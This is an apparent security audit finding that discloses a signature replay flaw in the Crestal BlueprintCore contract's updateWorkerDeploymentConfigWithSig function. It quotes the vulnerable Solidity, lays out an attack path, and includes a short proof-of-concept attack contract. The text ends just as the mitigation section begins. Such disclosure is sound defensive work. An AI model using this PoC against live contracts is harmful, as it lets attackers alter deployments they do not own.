 Small Merlot Chipmunk

High

# Signature Replay Vulnerability in updateWorkerDeploymentConfigWithSig

### Summary

 A signature validation flaw in updateWorkerDeploymentConfigWithSig allows signature replay attacks, enabling attackers to modify configurations of deployments they don't own by reusing valid deployment signatures from the deployment owner.

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L672

### Root Cause

In BlueprintCore.sol, the updateWorkerDeploymentConfigWithSig function uses getRequestDeploymentDigest for signature verification, which doesn't include the requestID parameter in the digest:

```solidity
function updateWorkerDeploymentConfigWithSig(
    address tokenAddress,
    bytes32 projectId,
    bytes32 requestID,
    string memory updatedBase64Config,
    bytes memory signature
) public {
    // get EIP712 hash digest
    bytes32 digest = getRequestDeploymentDigest(projectId, updatedBase64Config, "app.crestal.network");

    // get signer address
    address signerAddr = getSignerAddress(digest, signature);

    updateWorkerDeploymentConfigCommon(tokenAddress, signerAddr, projectId, requestID, updatedBase64Config);
}

```

This means any valid deployment signature from a user can be reused to update configurations of any of their deployments.


### Internal Pre-conditions

The attacker needs to know a valid signature from the target user
The target deployment must have been picked up by a worker (status != Status.Issued)



### External Pre-conditions

.

### Attack Path

Attacker observes a valid signature when a user creates a deployment request using createProjectIDAndDeploymentRequestWithSig
Attacker waits for the deployment to be active and picked up by a worker
Attacker calls updateWorkerDeploymentConfigWithSig using the same signature but targeting a different requestID
The contract accepts the signature as valid since it only verifies projectId and base64Config
Attacker can now modify configurations of deployments they don't own



### Impact

Malicious actors can modify deployment configurations for any active deployment by reusing valid signatures. This could lead to service disruption, privacy breaches, or potentially theft of assets managed by the deployed service.


### PoC

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Blueprint.sol";

contract SignatureReplayAttack {
    BlueprintV5 public blueprint;
    
    constructor(address _blueprint) {
        blueprint = BlueprintV5(_blueprint);
    }
    
    function executeAttack(
        bytes32 projectId,
        bytes32 targetRequestID,
        string memory maliciousConfig,
        address tokenAddress,
        bytes memory originalSignature
    ) public {
        // Use an existing signature to update config for a different requestID
        blueprint.updateWorkerDeploymentConfigWithSig(
            tokenAddress,
            projectId,
            targetRequestID,
            maliciousConfig,
            originalSignature
        );
        // If successful, the config has been changed with a reused signature
    }
}
```

### Mitigation

 Include requestID in the signature digest for config updates by creating a separate digest function specifically for configuration updates: